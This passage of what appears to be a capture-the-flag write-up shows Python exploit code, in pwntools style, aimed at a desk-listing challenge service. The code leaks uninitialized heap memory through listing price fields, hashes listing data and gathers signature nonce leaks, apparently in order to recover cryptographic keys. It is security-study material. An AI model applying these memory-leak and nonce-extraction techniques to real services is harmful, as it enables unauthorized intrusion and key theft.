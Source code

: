 ```py

# ... first authenticate here ...

gold_user_Q = get_listing_public_key(1)

signatures = dump_existing_crypto()
```

And here is code to dump all the leaks through the price field of the `NUM_POPS` newly inserted desks listings and also calculate their hashes:

```py
NUM_POPS = 130

# prices can contain leaks from uninitialized malloc chunks
def get_all_listings_prices():
    sla(b'> ', b'4') # list desks

    leaks = []
    while True:
        if not ru(b'Listing #', timeout=2):
            break
        ru(b'Price: ')
        price_f = float(rl(keepends=False))
        leak_bytes = struct.pack('>f', price_f)
        leaks.append((price_f, leak_bytes))
    return leaks


def get_all_listings_hashes():
    sla(b'> ', b'4') # list desks

    hashes = []
    while True:
        if not ru(b'Listing #', timeout=2):
            break
        ru(b'Name: ')
        name =  rl(keepends=False)
        ru(b'Description: ')
        desc =  rl(keepends=False)
        ru(b'Depth: ')
        depth = struct.pack('<f', float(ru(b'cm', drop=True)))
        ru(b'Width: ')
        width = struct.pack('<f', float(ru(b'cm', drop=True)))
        ru(b'Height: ')
        height = struct.pack('<f', float(ru(b'cm', drop=True)))

        hashable_desk = flat(
            name.ljust(32, b'\x00'),
            desc.ljust(256, b'\x00'),
            depth, width, height
        )
        sha_hash = bytes_to_long(sha256(hashable_desk).digest())
        hashes.append(sha_hash)
    return hashes


for _ in range(NUM_POPS):
    add_dummy_leak_listing()

listings = get_all_listings_prices()
listings_hashes = get_all_listings_hashes()

nonce_leaks = [listings[LEAKS_OFFSETS[idx]] for idx in range(UNLEAKABLE_COUNT, len(signatures))]
```